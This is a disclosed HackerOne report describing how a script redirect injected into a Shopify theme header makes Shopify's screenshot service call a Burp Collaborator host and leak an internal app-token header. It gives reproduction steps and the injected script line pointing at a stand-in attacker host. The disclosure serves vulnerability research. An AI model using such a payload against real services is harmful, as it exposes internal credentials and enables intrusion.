 # Screenshot Service leaks X-ABS-App-Token

## Report Details
- **Report ID**: 1067443
- **URL**: https://hackerone.com/reports/1067443
- **State**: Closed
- **Severity**: none
- **Submitted**: 2020-12-28T13:13:15.641Z
- **Disclosed**: 2021-02-12T12:44:23.524Z

## Reporter
- **Username**: corraldev
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
1. Login and create a development store
2. Start Burp Suite and open a burp collaborator client then copy the collaborator payload
3. Edit the section header.liquid of your current theme. Adding this:

````
<script>
  window.location="https://[paste_here_collaborator]/";
</script>

````
Finally go to https://your-store.myshopify.com/admin/themes , in your collaborator client you should be able to read the server request

## Impact

This SSRF expose `X-ABS-App-Token: screenshot-service-production@████████` . 
Fortunately when you load another location than the preview page of your shop the screenshot isn't taken but can open the door to another vulnerabilities.

## Attachments
No attachments
